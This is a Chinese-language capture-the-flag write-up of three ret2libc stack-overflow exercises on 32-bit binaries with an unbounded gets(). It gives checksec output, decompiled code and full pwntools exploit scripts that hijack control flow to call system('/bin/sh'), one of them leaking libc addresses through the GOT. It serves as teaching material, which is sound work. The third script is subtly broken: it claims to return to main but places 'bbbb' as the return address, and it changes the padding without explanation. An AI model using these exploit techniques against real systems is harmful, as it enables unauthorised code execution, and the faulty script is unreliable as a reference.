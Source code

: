 # PWN Exercise - ret2libc

[toc]

## ret2libc1

### 题目

checksec
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
伪代码：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```
### PWN
程序有system函数，有/bin/sh字符串。   

0x08048720 : /bin/sh
```
$ ROPgadget --binary ret2libc1 --string "/bin/sh"
Strings information
============================================================
0x08048720 : /bin/sh
```
0x08048460  system@plt
```
pwndbg> info function
All defined functions:

File ret2libc1.c:
19:	int main(void);
8:	void secure(void);

Non-debugging symbols:
0x080483fc  _init
0x08048430  gets@plt
0x08048440  time@plt
0x08048450  puts@plt
0x08048460  system@plt
0x08048470  __gmon_start__@plt
0x08048480  srand@plt
0x08048490  __libc_start_main@plt
0x080484a0  setvbuf@plt
0x080484b0  rand@plt
0x080484c0  __isoc99_scanf@plt
0x080484d0  _start
0x08048500  __x86.get_pc_thunk.bx
0x08048510  deregister_tm_clones
0x08048540  register_tm_clones
0x08048580  __do_global_dtors_aux
0x080485a0  frame_dummy
0x08048690  __libc_csu_init
0x08048700  __libc_csu_fini
0x08048704  _fini
```
EXP:
```python
from pwn import *

elf = ELF('ret2libc1')
io = process(elf.path)
#gdb.attach(io,"b * 0x08048689")
system_addr = 0x08048460
bin_sh_addr = 0x08048720
payload = b'a'*0x6c +b'bbbb' +p32(system_addr) + b'cccc' + p32(bin_sh_addr)
io.sendline(payload)
io.interactive()
```

## ret2libc2

本题上一次基本一致，就是搜索不到`/bin/sh`字符串。   
所以需要办法把字符串写到变量中调用，可以查看bss段，全局变量。   
ida可以通过快捷键g，跳转到.bss。   
题预设了一个buf2全局变量，可以利用。
```
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)
.bss:0804A080 _bss            ends
.bss:0804A080
```

### PWN

EXP:
```python
from pwn import *

elf = ELF('ret2libc2')
io = process(elf.path)
gets_addr = 0x08048460
system_addr = 0x08048490
buf2_addr = 0x0804A080
pop_ebx = 0x0804843d
#gdb.attach(io,"b * 0x080486bf")
#payload = flat(['a' * 112, gets_addr, pop_ebx, buf2_addr, system_addr, 'bbbb', buf2_addr])
payload = flat(['a' * 112, gets_addr, system_addr, buf2_addr, buf2_addr])
io.sendline(payload)
io.sendline('/bin/sh')
io.interactive()
```


## ret2libc3



伪代码：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```
在ret2libc2的基础上，system()函数也被去除掉了。   
就需要利用libc中的system(),和`/bin/sh`。   
思路：   
1. 泄露地址，计算相对地址。   
由于 libc 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。
2. 计算system(),`/bin/sh`绝对地址
3. 执行system()

### 准备
https://github.com/lieanu/LibcSearcher
```python
from LibcSearcher import *

#第二个参数，为已泄露的实际地址,或最后12位(比如：d90)，int类型
obj = LibcSearcher("fgets", 0X7ff39014bd90)

obj.dump("system")        #system 偏移
obj.dump("str_bin_sh")    #/bin/sh 偏移
obj.dump("__libc_start_main_ret")    
```
### PWN

```python
from pwn import *
from LibcSearcher import LibcSearcher

elf = ELF('ret2libc3')
io = process(elf.path)

puts_addr = elf.plt['puts']
print('puts_plt addr:',hex(puts_addr))
libc_start_main_got_addr = elf.got['__libc_start_main']
print('__libc_start_main addr:',hex(libc_start_main_got_addr))
main_addr = elf.symbols['main']
print('main addr:',hex(main_addr))

print("1. leak libc_start_main_got addr and return to main again")

payload = flat([112*'a',puts_addr,'bbbb',libc_start_main_got_addr])
io.sendlineafter('Can you find it !?', payload)
libc_start_main_addr = u32(io.recv()[0:4])
print("libc_start_main addr:",hex(libc_start_main_addr))

print("2. get system and /bin/sh addr.")
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
print('system addr:',system_addr)
binsh_addr = libcbase + libc.dump('str_bin_sh')
print('/bin/sh string addr:',binsh_addr)

print("3. get shell")

payload = flat(['a' * 104, system_addr, 'bbbb', binsh_addr])
io.sendline(payload)
io.interactive()
```
